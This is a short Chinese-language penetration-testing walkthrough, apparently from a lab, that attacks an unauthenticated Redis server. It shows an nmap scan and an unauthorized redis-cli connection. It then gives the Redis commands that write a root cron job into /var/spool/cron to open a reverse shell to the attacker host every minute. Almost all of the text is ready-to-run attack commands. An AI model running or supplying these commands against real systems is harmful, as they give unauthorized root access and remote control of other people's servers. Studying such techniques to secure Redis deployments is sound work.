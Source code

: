 ```
nmap -p 7389 192.168.1.128
```

![image-20250309195352321](./assets/image-20250309195352321.png)



#### 尝试未授权访问，成功连接

```
redis-cli -h 192.168.1.128 -p 6379
```

![image-20250309195429818](./assets/image-20250309195429818.png)



#### 写入定时任务

反弹shell到攻击主机

```
set x "\n*/1 * * * * bash -i >&/dev/tcp/192.168.1.129/8888 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

![image-20250309195447075](./assets/image-20250309195447075.png)


